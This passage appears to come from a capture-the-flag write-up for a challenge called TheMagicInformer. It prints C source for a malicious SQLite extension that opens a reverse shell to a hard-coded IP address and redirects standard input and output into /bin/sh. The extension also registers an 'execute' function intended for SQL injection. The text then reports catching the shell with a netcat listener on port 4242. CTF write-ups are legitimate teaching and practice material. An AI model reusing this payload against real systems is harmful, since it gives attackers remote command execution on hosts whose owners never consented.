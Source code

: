 ```
int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr("59.92.213.3");
connect(sockt, (struct sockaddr *) &revsockaddr,
sizeof(revsockaddr));
dup2(sockt, 0);
dup2(sockt, 1);
dup2(sockt, 2);
char * const argv[] = {"/bin/sh", NULL};
execve("/bin/sh", argv, NULL);
SQLITE_EXTENSION_INIT2(pApi);
int rc = sqlite3_create_function(db, "execute", 1, SQLITE_UTF8 | SQLITE_INNOCUOUS, 0, systemExec, 0, 0);
// subsequent calls need to return OK since this will be used in injections and we can't really control how many times its going to be loaded
return SQLITE_OK;
}
```
After uploading the file and having a netcat listener at  `4242`. we loaded the file and successfully received a shell and got the flag:
![TheMagicInformer-6](https://user-images.githubusercontent.com/95465072/215003183-eae689fc-41b1-48b8-9a70-b07006bce589.png)










